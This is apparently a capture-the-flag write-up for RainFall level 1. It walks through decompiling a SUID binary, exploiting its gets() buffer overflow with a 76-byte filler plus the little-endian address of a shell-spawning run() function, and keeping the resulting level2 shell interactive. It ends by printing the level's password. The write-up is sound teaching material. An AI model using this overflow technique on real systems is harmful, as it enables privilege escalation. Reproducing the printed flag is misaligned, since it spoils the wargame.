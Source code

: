 ## Level 1 Walkthrough

### Who am I?

```bash
level1@RainFall:~$ id
uid=2001(level1) gid=2001(level1) groups=2001(level1)
```

### Where am I?

```bash
level1@RainFall:~$ ll
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

We are in possession of a SUID binary owned by `level2`. Our objective is to exploit this binary to gain a shell as `level2` and read the corresponding `.pass` file.

---

## Program Behavior

The program accepts input from stdin and immediately returns. It does not provide any feedback, which suggests that its behavior is silent unless something specific is triggered.

Here are a few examples:

```bash
level1@RainFall:~$ ./level1
hello
level1@RainFall:~$ ./level1
123
level1@RainFall:~$ echo "test" | ./level1
level1@RainFall:~$
```

In each case, the program accepts the input and exits quietly, without printing anything or showing an error message. This confirms that it expects a very specific input or is relying on hidden internal logic.

---

## Static Analysis (Ghidra)

Using Ghidra, we observe two key functions:

### `void run(void)`

```c
void run(void)
{
  fwrite("Good... Wait what?\n", 1, 19, stdout);
  system("/bin/sh");
}
```

This function prints a message and attempts to spawn a shell.

### `void main(void)`

```c
void main(void)
{
  char buffer[76];
  gets(buffer);
}
```

The use of `gets()` is unsafe, as it does not check the length of user input. This presents a classic buffer overflow opportunity.

---

## Exploitation Strategy

### Step 1: Identify the overflow offset

We want to find how many bytes it takes to reach and overwrite the return address. Using trial and error or pattern generation, we determine this offset is **76 bytes**.

### Step 2: Find `run()` address

Using GDB:

```bash
(gdb) p &run
$1 = (<text variable, no debug info> *) 0x8048444 <run>
```

### Step 3: Craft the payload

Before building the payload, it is important to understand how memory addresses are represented in this architecture.

#### Why little-endian?

The system we're exploiting runs on an **x86 (i386)** architecture, which uses **little-endian** byte ordering. This means that when a multi-byte value (like an address) is stored in memory, its **least significant byte (LSB)** is stored first.

For example, if the address of `run()` is:

```
0x08048444
```

Then it must be written in memory as:

```
\x44\x84\x04\x08
```

This is because memory reads the bytes from lowest to highest address, and in little-endian systems, the LSB comes first.

* 76 bytes of filler (e.g. "A" \* 76)
* Address of `run()` in little-endian format: `\x44\x84\x04\x08`

```bash
python -c 'print("A" * 76 + "\x44\x84\x04\x08")' > /tmp/exploit
```

### Step 4: Make the shell interactive

If we run:

```bash
level1@RainFall:~$ cat /tmp/exploit | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

The message "Good... Wait what?" confirms that the `run()` function was successfully invoked, but the shell dies immediately afterward. This happens because the pipe (`|`) closes the standard input (`stdin`) of the child process.

As a result, the shell spawned by `system("/bin/sh")` cannot read input and exits instantly.

To fix this, we use `-` with the `cat` command. This tells `cat` to concatenate both `/tmp/exploit` **and** the terminal's `stdin`, so that `./level1` receives the exploit payload and can still read from user input afterward:

```bash
cat /tmp/exploit - | ./level1
```

This keeps the shell open and interactive.

### Step 5: Validate access

```bash
$ whoami
level2
$ cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

---

## Files in this repository

* `flag.txt`: file containing the retrieved flag
* `asm_analysis.md`: GDB analysis of the binary
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C, faithful to binary)
